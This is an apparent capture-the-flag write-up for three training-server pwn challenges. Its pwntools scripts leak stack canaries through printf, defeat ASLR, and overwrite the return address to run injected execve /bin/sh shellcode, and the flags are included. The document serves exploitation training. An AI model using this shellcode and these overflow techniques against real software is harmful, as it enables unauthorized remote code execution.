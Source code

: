 # leakers ![c](https://img.shields.io/badge/solved-success)
### Analysis
This challenge is again on a *buffer overflow* vulnerability, as we can immediately see from the disassembled source code on ```Ghidra```. However, this time we can see through ```checksec ./leakers``` that a **canary** mitigation is enabled.

Btw we can easily bypass it by exploiting the fact that there is a printf in the code that, as we know, prints strings until it finds a null byte 0x00. Moreover, a canary typically starts with this null byte in order to XXXXXX.

### Exploit
With this knowledge we can send some A's and analyze the memory after this point with ```x /20gx *buffer_address*```, and notice the presence of the canary after 104 bytes. After leaking and receiving it we can fully exploit this.

First of all we send our shellcode in the first iteration of the loop, then we get the canary and after that we overwrite the Saved IP in order to jump to out code.
```python
from pwn import *
import time

context.terminal = ['tmux', 'splitw', '-h']
#ssh = ssh("acidburn", "192.168.56.103")
#r = ssh.process("./leakers")
#gdb.attach(r, """
#	b *0x000401200
#	c
#	""")

r = remote("training.jinblack.it", 2010)

input("wait")

shellcode = b"\xEB\x14\x5F\x48\x89\xFE\x48\x83\xC6\x08\x48\x89\xF2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05\xE8\xE7\xFF\xFF\xFF"
shellcode = shellcode + b"/bin/sh\x00" + b"\x00"*8

r.send(shellcode)
time.sleep(0.1)

r.send("A"*105)
time.sleep(0.1)
r.recvuntil("> ")
r.recv(105)
canary = u64(b"\x00" + r.recv(7))
print("0x%x" % canary)

wheretojump = 0x00404080

payload = b"A" * 104 + p64(canary) + b"B"*8 + p64(wheretojump)

r.send(payload)
time.sleep(0.1)

r.interactive()
```

**flag{canary_may_not_die!}**


# gonnaleak ![c](https://img.shields.io/badge/solved-success)
### Analysis
Non mi ricordo
### Exploit
```python
from pwn import *
import time

#context.terminal = ['tmux', 'splitw', '-h']
context.terminal = ['terminator', '-e']
#r = process("./gonnaleak")
#gdb.attach(r, """
#	c
#	""")

r = remote("training.jinblack.it", 2011)

input("wait")


shellcode = b"\xEB\x14\x5F\x48\x89\xFE\x48\x83\xC6\x08\x48\x89\xF2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05\xE8\xE7\xFF\xFF\xFF"
shellcode = shellcode + b"/bin/sh\x00" + b"\x00"*8
shellcode = shellcode.rjust(104, b"\x90")
#r.send(shellcode)
#time.sleep(0.1)

r.send("A"*(105))
time.sleep(0.1)
r.recvuntil("> ")
r.recv(105)
canary = u64(b"\x00" + r.recv(7))
print("0x%x" % canary)


r.send("A"*(136))
time.sleep(0.1)
r.recvuntil("> ")
r.recv(136)
wheretojump = u64(r.recv(6) + b"\x00"*2)
print("0x%x" % wheretojump)
wheretojump = wheretojump - 0x150
print("0x%x" % wheretojump)


#payload = b"A"*104 + p64(canary) + b"B"*8 + p64(wheretojump)
payload = shellcode + p64(canary) + b"B"*8 + p64(wheretojump)

r.send(payload)
time.sleep(0.1)

r.interactive()
```

# aslr ![c](https://img.shields.io/badge/solved-success)
### Analysis
Same procedure to get the canary.
Then because ASLR is enabled we have to calculate the offset (that is fixed) between an address in the stack
### Exploit
```python
from pwn import *
import time
'''
context.terminal = ['tmux', 'splitw', '-h']
r = process("./aslr")
gdb.attach(r, """
	c
	""")
'''
r = remote("training.jinblack.it", 2012)

shellcode = b"\xEB\x14\x5F\x48\x89\xFE\x48\x83\xC6\x08\x48\x89\xF2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05\xE8\xE7\xFF\xFF\xFF"
shellcode = shellcode + b"/bin/sh\x00" + b"\x00"*8
r.send(shellcode)
time.sleep(0.1)

r.send("B"*105)
time.sleep(0.1)
r.recvuntil("> ")
r.recv(105)
canary = u64(b"\x00" + r.recv(7))
print("canary 0x%x" % canary)

offset = 0x2005c0
r.send("A"*112)
time.sleep(0.1)
r.recvuntil("> ")
r.recv(112)
add = u64(r.recv(8) + b"\x00" + b"\x00") 
add = add + offset
payload = b"a"*104 + p64(canary) + b"b"*8 + p64(add)
r.send(payload)

r.interactive()
```
**flag{you_can_also_leak_the_binary_And_compute_bss!}**
